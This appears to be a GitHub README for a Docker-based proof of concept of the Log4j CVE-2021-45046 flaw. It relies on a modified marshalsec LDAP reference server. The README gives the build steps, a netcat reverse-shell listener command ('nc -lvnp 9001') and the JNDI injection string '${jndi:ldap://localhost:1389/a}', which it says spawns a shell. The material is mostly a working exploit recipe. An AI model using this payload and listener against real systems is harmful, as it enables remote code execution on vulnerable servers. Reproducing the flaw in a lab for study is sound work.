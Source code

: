 # Setup Information

1. `docker build -t cve-45046-server .`
1. `docker up cve-45046-server`

# Changes

Main changes were made to the `LdapRefServer.class` (after compilation) in `marshalsec-0.0.3-SNAPSHOT-all.jar/marshalsec\target\classes\marshalsec\jndi`.

Due to the changes made in Log4j 2.15.0, it introduced a TOCTOU vulnerability. This LDAP server does exactly that.

After running this server and `modified-alpine`, and running a separate netcat listener on port 9001 (this can be done by doing `nc -lvnp 9001`), simply go to `localhost:8080` and provide the string `${jndi:ldap://localhost:1389/a}`.

A shell should be spawned on the netcat listener.